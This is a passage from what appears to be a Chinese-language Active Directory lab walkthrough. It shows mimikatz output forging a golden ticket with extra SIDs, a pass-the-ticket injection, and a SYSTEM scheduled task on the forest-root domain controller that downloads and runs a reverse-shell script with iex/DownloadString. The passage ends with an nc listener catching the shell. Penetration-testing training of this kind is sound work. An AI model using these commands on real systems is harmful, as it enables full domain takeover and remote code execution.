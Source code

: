   .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\krbtgt_tkt.kirbi
User      : Administrator
Domain    : dollarcorp.moneycorp.local (DOLLARCORP)
SID       : S-1-5-21-1874506631-3219952063-538504511
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-280534878-1496970234-700767426-519 ;
ServiceKey: ff46a9d8bd66c6efd77603da26796f35 - rc4_hmac_nt
Lifetime  : 2/16/2022 12:30:00 AM ; 2/14/2032 12:30:00 AM ; 2/14/2032 12:30:00 AM
-> Ticket : C:\AD\krbtgt_tkt.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

TGT文件已生成在:```C:\AD\krbtgt_tkt.kirbi```

下面命令把TGT注入到mimikatz中
```
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\krbtgt_tkt.kirbi"'
```

使用下面两个命令之一验证上面操作是否成功
```
gwmi -class win32_operatingsystem -ComputerName mcorp-dc.moneycorp.local
```
或者
```
ls \\mcorp-dc.moneycorp.local\c$
```

利用上面已经取得的权限，为mcorp-dc添加一个定时任务
```
schtasks /create /S mcorp-dc.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "User3666" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.66/Invoke-PowerShellTcp.ps1''')'"
```

触发定时任务
```
schtasks /Run /S mcorp-dc.moneycorp.local /TN "User3666"
```

收到反弹shell
```
PS C:\ad> .\nc.exe -lnvp 443
listening on [any] 443 ...
connect to [172.16.100.66] from (UNKNOWN) [172.16.1.1] 59665
